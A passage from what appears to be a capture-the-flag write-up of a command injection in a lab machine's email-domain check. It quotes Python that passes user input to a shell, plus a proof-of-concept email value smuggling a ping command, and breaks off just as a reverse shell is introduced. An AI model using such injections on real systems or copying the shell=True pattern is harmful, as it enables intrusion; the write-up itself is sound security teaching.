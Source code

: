 Both match on the start of the string, so both would return success on the
match. If the developer wanted this to match the entire string, they could
have added a `$` to the end of the regex, like this:

![image-20230823214427759](../img/image-20230823214427759.png)

Now only the first line matches.

If the code continued with only the matched object, that could be safe. But
then it uses the full email to make the call to `run`:

    
    
    domain = email.split("@", 1)[1]
    result = run([f"dig txt {domain}"], shell=True, stdout=PIPE)
    

#### POC

To test this, I’ll try the same POC I showed in the image above. This will
make the following:

    
    
    email = "0xdf@only4you.htb; ping -c 1 10.10.14.6"
    domain = "only4you.htb; ping -c 1 10.10.14.6"
    command = "dig txt only4you.htb; ping -c 1 10.10.14.6"
    

I’ll get the POST request into Burp Repeater and send it. It hangs for a few
seconds (presumably doing the DNS request?), and then there’s an ICMP packet
at my listening `tcpdump`:

    
    
    oxdf@hacky$ sudo tcpdump -ni tun0 icmp
    tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
    listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
    13:48:20.818373 IP 10.10.11.210 > 10.10.14.6: ICMP echo request, id 2, seq 1, length 64
    13:48:20.818389 IP 10.10.14.6 > 10.10.11.210: ICMP echo reply, id 2, seq 1, length 64
    

It worked!

#### Shell

To get a shell from this, I’ll replace the `ping` command with a [bash reverse
shell](https://www.youtube.com/watch?v=OjkVep2EIlw):

    